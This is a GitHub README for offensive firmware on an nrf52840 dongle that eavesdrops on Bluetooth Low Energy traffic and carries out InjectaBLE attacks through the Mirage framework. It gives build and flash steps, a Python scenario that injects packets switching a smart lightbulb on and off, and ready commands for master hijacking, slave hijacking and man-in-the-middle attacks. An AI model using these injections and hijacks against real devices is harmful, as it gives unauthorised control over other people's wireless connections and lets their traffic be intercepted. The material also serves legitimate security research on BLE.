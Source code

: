 # injectable-firmware
Custom firmware for nrf52840-dongle, allowing to easily eavesdrop Bluetooth Low Energy communications and perform multiple active attacks based on InjectaBLE strategy.

## Installing the environment
* Install the latest ARM GCC Toolchain (C++ support needed), add it to your PATH variable
* Download the latest NRF5 SDK from nordic semiconductors
* Install nrfutil and add it to your PATH variable
* Set the SDK_ROOT environment variable to match the SDK directory

## Compiling the firmware
Compiling the firmware is straightforward:
```
$ make
```

Then, you can use the send command to flash it on the dongle:
```
$ make send
```

The dongle should now be detected by your operating system:
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit ButteRFly
[...]
```

## Injecting packets into an established connection
You can use Mirage framework to interact with the dongle and perform injection attacks. For example, let's imagine you want to inject packets into a Bluetooth Low Energy connection between a lightbulb and a smartphone. You know that the following packets allow to turn the bulb on or off:

* **Write command | handle = 0x0021 | data = 5510010d0a:** turn the bulb on
* **Write command | handle = 0x0021 | data = 5510000d0a:** turn the bulb off

You can write the following scenario, which will inject the "on" packet when the up arrow key is pressed and the "off" packet when the down arrow key is pressed:

```
from mirage.core import scenario
from mirage.libs import io,ble,utils

class injection_lightbulb(scenario.Scenario):

	def onStart(self):
		self.emitter = self.module.getEmitter(self.module["INTERFACE"])

	def onKey(self,key):
		if key == "up":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x01\x0d\x0a"))
		elif key == "down":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x00\x0d\x0a"))
```

1) Save this scenario as **injection_lightbulb.py** in the *scenarios* folder.
2) Run the **ble_sniff** module with the following parameters:
```
sudo ./mirage_launcher ble_sniff SNIFFING_MODE=newConnections SCENARIO=injection_lightbulb INTERFACE=butterfly0
```

3) Establish the connection between the smartphone and the lightbulb: when you are synchronized with the connection, you can simply inject the previously mentioned packets by pressing up or down arrows keys.


## Hijacking the master role (experimental)
InjectaBLE allows to perform master hijacking attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with the Slave when the Slave changes its connection parameters. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_master" ble_hijack1.INTERFACE=butterfly0 ble_hijack1.ROLE=master
```


## Hijacking the slave role (experimental)
InjectaBLE allows to perform slave hijacking attacks by injecting a LL\_TERMINATE\_IND packet and synchronize with the Master when the Slave disconnects. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_slave" ble_hijack1.INTERFACE=butterfly0 ble_hijack1.ROLE=slave
```


## Performing a MiTM attack (experimental)
InjectaBLE allows to perform MiTM attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with both legitimate devices when the Slave changes its connection parameters. You can perform this kind of attacks using **ble_mitm** module:
```
sudo ./mirage_launcher ble_mitm INTERFACE=butterfly0 MITM_STRATEGY=injection
```

